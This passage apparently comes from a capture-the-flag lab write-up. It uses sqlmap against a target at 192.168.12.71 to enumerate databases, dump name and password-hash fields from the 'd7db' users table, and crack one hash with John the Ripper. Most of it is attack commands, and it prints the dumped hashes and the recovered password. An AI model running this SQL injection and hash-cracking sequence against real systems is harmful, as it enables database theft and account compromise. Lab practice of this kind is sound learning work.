






3.2 Sqlmap
a) Run the “sqlmap” against the target machine. Here, we set the risk at 3 and level at 5. This is the option we got the best results in the least time.
$sqlmap
-u 192.168.12.71
/
?nid=1 --dbs --batch --risk 3 --level 5
Output:

It showed us that there are 2 available databases in the target machine which are:

b) Enumerate “d7db” database.
$sqlmap
-u 192.168.12.71
/
?nid=1 -D d7db --tables --batch --risk 3 --level 5
Output:

We're interested in the “users” table.
c) Enumerate the “users” table.
Get the columns.
$sqlmap
-u
'http://192.168.12.71/?nid=1'
--dbs --columns -T users -D d7db
Output:

We're only interested in this three fields: “name”, “init” and “pass”.
d) Enumerate those fields.
$sqlmap
-u
'http://192.168.12.71/?nid=1'
--dump -C name,init,pass -T users -D d7db
Output:

As you can see “pass” field has “hashes”.
$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
e) Save the hashes on a file called “hashes.txt”.
$gedit
hashes.txt
e) Crack the hashes with “John the Ripper”.
$john
hashes.txt
Output:

We've found a password, “turtle”.
Index